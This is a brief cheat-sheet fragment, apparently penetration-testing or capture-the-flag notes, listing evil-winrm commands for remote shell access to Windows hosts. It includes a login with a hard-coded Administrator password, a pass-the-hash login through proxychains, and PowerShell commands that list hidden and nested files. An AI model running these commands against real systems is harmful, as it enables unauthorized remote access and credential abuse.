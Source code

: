 ```
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```

```
proxychains evil-winrm -i $IP -u $username -H $NTLMhash
```

```
evil-winrm -i <remoteIP> -u 'username' -p 'password'
```

```
gci -recurse .
```

```
gci -hidden
```

